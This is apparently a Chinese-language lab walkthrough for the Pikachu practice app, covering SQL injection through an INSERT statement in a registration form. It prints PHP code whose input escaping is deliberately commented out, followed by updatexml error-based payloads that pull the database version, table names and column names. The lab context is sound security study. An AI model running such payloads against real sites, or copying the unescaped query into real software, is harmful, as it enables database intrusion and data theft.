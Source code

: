 **服务器端核心代码**
```php
if(isset($_POST['submit'])){
    if($_POST['username']!=null &&$_POST['password']!=null){
//      $getdata=escape($link, $_POST);//转义

        //没转义,导致注入漏洞,操作类型为insert
        $getdata=$_POST;
        $query="insert into member(username,pw,sex,phonenum,email,address) values('{$getdata['username']}',md5('{$getdata['password']}'),'{$getdata['sex']}','{$getdata['phonenum']}','{$getdata['email']}','{$getdata['add']}')";
        $result=execute($link, $query);
        if(mysqli_affected_rows($link)==1){
            $html.="<p>注册成功,请返回<a href='sqli_login.php'>登录</a></p>";
        }else {
            $html.="<p>注册失败,请检查下数据库是否还活着</p>";

        }
    }else{
        $html.="<p>必填项不能为空哦</p>";
    }
}
```

**漏洞利用**

在上面搜索型注入中演示了 select 类报错获取信息,insert 和 update 其实类似

先测 insert 注入,在注册页面输入 `'` ,来查看后端反馈的观察,通过观察报错了解到提交的内容在后台参与了拼接.

![image](../../../../assets/img/安全/实验/Misc/pikachu/45.png)

版本 `1' or updatexml(1,concat(0x7e,(version())),0) or'')#`

表名 `1' or updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='pikachu'limit 0,1)),0) or'')#`

![image](../../../../assets/img/安全/实验/Misc/pikachu/46.png)

老规矩,改 limit 后的数字

字段名 `1' or updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users'limit 0,1)),0) or'')#`

![image](../../../../assets/img/安全/实验/Misc/pikachu/47.png)
